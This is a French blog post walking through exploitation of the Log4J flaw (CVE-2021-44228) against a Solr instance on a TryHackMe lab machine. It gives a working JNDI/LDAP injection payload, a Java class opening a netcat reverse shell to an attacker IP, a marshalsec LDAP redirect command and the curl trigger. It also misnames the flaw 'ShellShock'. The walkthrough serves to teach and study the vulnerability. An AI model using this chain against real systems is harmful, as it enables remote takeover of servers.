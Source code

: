 ```yaml
---

layout: post

title: "Analyse de la faille Log4J"

date: 2021-12-13

categories: divers

---
```


# Analyse de la faille Log4J (CVE-2021-44228)

Pas besoin d'être un professionnel de la cybersécurité pour avoir entendu parler de cette faille qui a mis les Ops et les RSSI en ébullition.

Connue sous le nom de CVE-2021-44228, ou plus communément "ShellShock" de par son impact étendu, cette faille notée 10 (sur 10 !) par le scoring CVSS permet un _Remote Code Execution_ en exploitant le système de log basé sur Java : Log4J.

Je vous propose une brève analyse de cette faille. Avec tout d'abord un remerciement à John Hammond pour la création de la machine vulnérable sur TryHackMe.

# Reconnaissance de la faille

Cette faille se retrouve sur bon nombre d'applications, puisque Log4J est très répandue pour la création de logs. Pour cette attaque je me base sur l'application Solr, qui utilise une version vulnérable de Log4J.

![2](https://user-images.githubusercontent.com/16634117/145869688-87433bd9-c133-41de-bd0d-43588d5e01a1.PNG)

Un petit tour sur l'application et on remarque rapidement que l'application Log4J est présente dans les arguments de l'application. 

Il faut maintenant savoir si cette version est vulnérable, pour ça il faut trouver un point d'injection. Le plus simple est de jeter un oeil aux logs de l'application :

![example_logs](https://user-images.githubusercontent.com/16634117/145869966-14f8f7bf-995c-470a-a6e8-dc4a334a5edb.png)

Ici, on voit clairement que les requêtes GET sont journalisées ; l'url mais également **les paramètres**. (C'est sur ce point que l'exploit peut changer, suivant la journalisation en place, il existera des points d'injection de code ou pas)

Pour identifier la vulnérabilité du système, j'injecte un paramètres GET avec la charge utile suivante (expliquée dans la présentation de la faille) :

`{jndi:ldap://<IP>:<PORT>}`

Voilà donc l'injection, avec un listener de l'autre côté pour vérifier la bonne execution par le système de logs :

![5](https://user-images.githubusercontent.com/16634117/145870531-750a9523-9d1c-4b0d-b523-af4b2d1e669e.png)

Une connexion s'effectue bien entre notre machine et le serveur, ce dernier est donc **vulnérable à l'attaque**.

# Exploitation

Nous avons vu dans la partie précédente que l'application est vulnérable, pour le moment, aucune execution de code sur le serveur n'est réalisée. 

C'est ici que la seconde partie de la faille se trouve, l'utilisation de [JNDI](https://en.wikipedia.org/wiki/Java_Naming_and_Directory_Interface) va permettre de faire des appels à un serveur LDAP, serveur qui peut être malicieux et donc utilisé pour rediriger vers du code malveillant en notre possession.

## Charge utile

Afin de créer un accès au serveur, on cherche simplement à créer un shell, pour ça la classe Java suivante est suffisante : 

```Java
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash 10.10.65.176 9999");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

On la compile sous le nom de `Exploit.class`

## Mise en place d'un serveur LDAP malveillant

Pour cela on utilise le software Marshalsec (https://github.com/mbechler/marshalsec) qui va permettre de créer le serveur LDAP et de rediriger le trafic.

La commande suivante va créer le serveur et rediriger vers notre code malveillant :

`java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.10.65.176:8000/#Exploit"`

![image](https://user-images.githubusercontent.com/16634117/145871850-2f83e1d5-6e94-40ec-803b-c71be8fca4d6.png)

## Attaque

Une fois les éléments en place, il faut unserveur capable de répondre avec notre charge malveillante, un simple `python3 -m http.server` à la racine de notre paylaod fera l'affaire.

Pour pouvoir récupérer le shell il faut également ouvrir une connexion au niveau de la machine d'attaque :

`nc -lnvp 9999`

Tous les éléments sont en place. 

Une requête avec l'injection va permettre de déclencher toute la chaîne d'attaque : 

`curl 'http://10.10.31.65:8983/solr/admin/cores?foo=$\{jndi:ldap://10.10.65.176:1389/Exploit\}'`

Une fois cela fait :

![image](https://user-images.githubusercontent.com/16634117/145872643-ec39c7ca-e33d-4b34-8c31-a6b2ed397b09.png)
_De haut en bas et de gauche à droite : la reqûete malveillante, le serveur LDAP redirigeant le traffic, le serveur Python répondant avec la payload RCE compilée, le reverse shell_

On obtient bien un accès en shell au serveur, par la suite il est possible de continuer une chaîne classque d'attaque pour gagner en privilèges et corrompre une plus grande partie du système.



